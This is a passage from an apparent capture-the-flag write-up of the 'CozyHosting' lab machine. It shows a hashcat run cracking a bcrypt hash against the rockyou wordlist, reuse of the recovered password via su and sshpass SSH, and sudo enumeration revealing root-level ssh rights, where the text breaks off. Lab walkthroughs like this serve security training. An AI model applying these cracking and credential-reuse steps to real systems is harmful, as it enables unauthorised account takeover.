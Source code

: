 I’m including `--user` because my hashes have `[username]:` at the front of each line.

3200 is the most generic type, so I’ll start with that:

```
$ hashcat hashes --user -m 3200 /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
hashcat (v6.2.6) starting
...[snip]...
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
...[snip]...

```

admin’s password is “manchesterunited”.

### su / SSH

The other user on the box is josh, and that password works with `su`:

```
app@cozyhosting:/$ su - josh
Password:
josh@cozyhosting:~$

```

Or I can get a clean shell with SSH:

```
oxdf@hacky$ sshpass -p manchesterunited ssh josh@cozyhosting.htb
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)
...[snip]..
josh@cozyhosting:~$

```

Either way, I can grab `user.txt`:

```
josh@cozyhosting:~$ cat user.txt
30628c91************************

```

## Shell as root

### Enumeration

The josh user can run `ssh` as root using `sudo`:

```
josh@cozyhosting:~$ sudo -l
[sudo] password for josh:
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *

```
